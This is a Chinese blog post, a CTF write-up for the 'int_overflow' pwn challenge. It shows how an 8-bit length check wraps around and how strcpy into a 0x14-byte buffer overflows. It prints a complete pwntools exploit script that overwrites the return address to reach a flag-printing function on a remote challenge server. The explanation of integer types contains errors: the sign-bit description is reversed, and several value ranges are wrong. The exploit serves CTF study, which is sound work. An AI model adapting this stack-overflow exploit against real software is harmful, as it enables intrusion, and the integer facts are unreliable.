








<!--yml
category: 未分类
date: 2022-04-26 14:39:14
-->

# CTF|pwn栈溢出题目int_overflow解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_ctfpwn栈溢出

> 来源：[https://blog.csdn.net/skyattractive/article/details/106459465](https://blog.csdn.net/skyattractive/article/details/106459465)

# CTF|pwn栈溢出题目int_overflow解题思路及个人总结

## 解题思路

拿到题目，标题是int_overflow 指可能是某个int型变量存在栈溢出，留意下

老规矩将题目拖到IDA放入ubuntu中查看相关信息
*
**stack/canary保护没开**
ubuntu运行一下

简单的选择登陆 输入账号密码 返回结果

拖入IDA 反编译 查看main函数
进入login函数


login中定义两个变量buf和s，所给的栈的大小都很大，不存在栈溢出
我们继续进入check_passwd函数

这个函数只要是核对密码的过程，得到如下的信息：

1.  定义的v3大小为8bits，讲s的长度赋给v3
2.  v3 需要在3-8之间
3.  函数讲s复制给dest里面 dest在栈占0x14的位置
4.  v3作为一个int，**可以存在***整数溢出*的情况（后面总结）然后复制到dest变量的时候占满0x14的空间后**发生溢出**

编写exp如下：

```
from pwn import*
p = remote('124.126.19.106',38049)

sys_addr = 0x0804868B

payload = 'a'*0x14 + 'aaaa' + p32(sys_addr) + 'a' *234

p.recvuntil("choice:")
p.sendline("1")
p.recvuntil("username:")
p.sendline("123")
p.recvuntil("passwd:")
p.sendline(payload)

p.interactive() 
```

## 个人总结

首先将exp各部分解释一下

导入pwn模块 设定题目场景
sys_addr从IDA中可以看到

即调用到了这个函数 我们就可以得到flag

后半部分的recvuntil() 和 sendline()就根据整个文件的流程走

主要是`payload`的书写

前面提到int型变量`v3`可能存在整数溢出的情况我们先来看看各种整数的类型的大小

整数分为`有符号`和`无符号`两种类型，有符号数以最高位作为其符号位，即正整数最高位为 `1`，负数为 `0`，无符号数取值范围为非负数，常见各类型占用字节数如下：

| 类型 | 占用字节及取值范围 |
| --- | --- |
| int | 4 -2147483648~2147483648 |
| short int | -32768~32768 |
| long int | -2147483648~2147483648 |
| unsigned int | 0~4294967295 |
| unsigned short int | 0~65537 |
| unsigned long int | 0~4294967295 |

可以看到不同类型的整型变量是有不同的取值范围的，我们输入的值如果在合理范围的话就没事，但是如果输入的值超过了取值范围的话，会发生溢出
**针对溢出**：计算机会默认取输入值得后面部分 例如对于8bit的int型取值是在-255~255，如果输入256的话，255对应二进制是`1111 1111` 而256对应二进制`1 0000 0000` 计算机遇到256时就会默认去后面的部分即`0000 0000` 所以256会被认作是`0` 同理257是`1` ，258是`2`… …

有了这样的原理对于v3我们可以输入259~264中的其中一个数，符合`8>v3>3`的要求，从而构造payload

而payload中间填充四个a是因为
strcpy函数调用过程将s与dest压入栈 ，但是最后还执行了leave操作，最多覆盖4字节 所以payload中要填充4个a

234 = 262（这里取262） - 0x14 -4 -4
执行

```
python int_overflow.py 
```

得到flag


博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）